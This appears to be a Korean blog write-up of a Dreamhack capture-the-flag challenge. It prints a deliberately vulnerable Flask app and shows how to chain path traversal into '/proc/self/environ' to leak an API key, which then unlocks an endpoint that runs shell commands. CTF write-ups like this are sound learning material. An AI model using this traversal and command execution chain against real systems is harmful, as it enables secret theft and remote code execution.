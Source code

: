 ```yaml
---
title: "[2025-07-27] File Vulnerability advanced for Linux"
excerpt: "File Vulnerability advanced"

categories:
  - Problem
tags:
  - [File Vulnerability]

permalink: /Problem/[2025-07-27] File Vulnerability advanced for Linux/

toc: true
toc_sticky: true

date: 2025-07-27
last_modified_at: 2025-07-27
---
```


## 🦥 본문

- main.py

```python
import os, subprocess
from functools import wraps
from flask import Flask, request

app = Flask(__name__)
API_KEY = os.environ.get('API_KEY', None)

def key_required(view):
    @wraps(view)
    def wrapped_view(**kwargs):
        apikey = request.args.get('API_KEY', None)
        if API_KEY and apikey:
            if apikey == API_KEY:
                return view(**kwargs)
        return 'Access Denied !'
    return wrapped_view

@app.route('/', methods=['GET'])
def index():
    return 'API Index'

@app.route('/file', methods=['GET'])
def file():
    path = request.args.get('path', None)
    if path:
        data = open('./files/' + path).read()
        return data
    return 'Error !'

@app.route('/admin', methods=['GET'])
@key_required
def admin():
    cmd = request.args.get('cmd', None)
    if cmd:
        result = subprocess.getoutput(cmd)
        return result
    else:
        return 'Error !'

if __name__ == '__main__':
    app.run(host='0.0.0.0', debug=True)

```

/file API는 이용자가 입력하는 경로에 있는 파일을 읽어들이는 API이다.

/admin API는 cmd 파라미터를 통해 시스템 명령어를 실행하는 파일이다. 이 때 @key_required 데코레이터를 통해 API_Key가 환경 변수에 있는 값과 같은 지를 판단한다. 

즉, file API를 통해 `/proc/self/environ` 에서 환경 변수를 알아내고 그 환경 변수를 통해 admin API에 접근하여 flag를 얻어 내면 된다.

이 때 권한을 확인해야 하는 게 권한 확인 안하고 계속 cmd 값에 cat /flag를 넣으니깐 실행이 안된다. 

### 풀이

1. `file?path=../../proc/self/environ` 을 통해 API_KEY를 가져온다.
    - API_KEY=d22cb18e86fc9e23996650150461c9f794ad3a4f
2. admin API에 API_KEY와 cmd를 파라미터로 접근한다. 이 때 `cmd=ls -al /` 을 입력하여 루트 디렉토리에 권한 까지 확인한다.

```python
http://host8.dreamhack.games:8251/admin?API_KEY=d22cb18e86fc9e23996650150461c9f794ad3a4f&cmd=ls -al /
```

1. ---x--x--x 권한이므로 실행만  가능하고 읽기 권한은 없다 그러므로 `cmd=/flag` 를 통해 실행시켜서 출력시킨다.